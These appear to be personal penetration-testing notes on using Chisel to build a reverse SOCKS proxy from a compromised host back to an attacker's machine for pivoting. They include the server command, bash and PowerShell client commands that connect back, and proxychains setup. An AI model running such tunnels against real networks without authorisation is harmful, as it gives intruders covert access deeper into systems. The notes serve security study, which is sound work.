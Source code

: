 ## What is Chisel?
- Chisel is a great tool which can be used to quickly and easily setup a tunneled proxy or remote port forward through a compromised system, `regardless of if you have SSH access or not`
- We must have an appropriate copy of a chisel binary on both `attacking and compromised machine as well.`
- Copy the file to your target with your preferred file transfer method.

The chisel binary has two modes: 
1. client  
2. server


### Reverse SOCKS proxy
- We'll now use chisel and set up a reverse SOCKS proxy 
- This connects back from a compromised server to a listener waiting on our attacker machine.


## Step 1
On our own attack box, we use a command like this to setup a listener:-
```
chisel server -p <listen_port> --reverse & 
```


## Step 2
On compromised host, we use a command which connects back to the listener on our attacking box, completing the proxy.
```
./chisel client <ip of attack box>:<listen port> R:socks &
```

OR 

```powershell
Start-Job {C:\Users\chisel.exe client ip:port R:socks}
```
- Notice that, despite connecting back to out listener port, the actual proxy has been opened on port 1080.
- As such, we will be using port 1080 when sending data through the proxy 

The use of `R:socks` in command 
- `R` is prefixed to remotes (argument that determines what is forwarded or proxied -- in this case we setup a proxy) when connecting to a chisel server that has been started in reverse mode.
	- It essentially tells the chisel client that server anticipates the proxy or port forward to be made at the client side 


Proxychains setup
- When sending data through these proxies, we need to setup our proxychains configuration.
- A Chisel uses a SOCKS5 proxy, we will need to change line from socks4 to socks5 proxy.

## Note
- `The above config is for a reverse SOCKS proxy - as mentioned previously, proxy opens on port 1080 rather than specificed listening port.`
- `If you use proxychains with a forward proxy then port should be set to whichever port you opened (port 1337)`


[Great Blog for Multiple Pivots](https://ap3x.github.io/posts/pivoting-with-chisel/)

Read this coz imp!!!!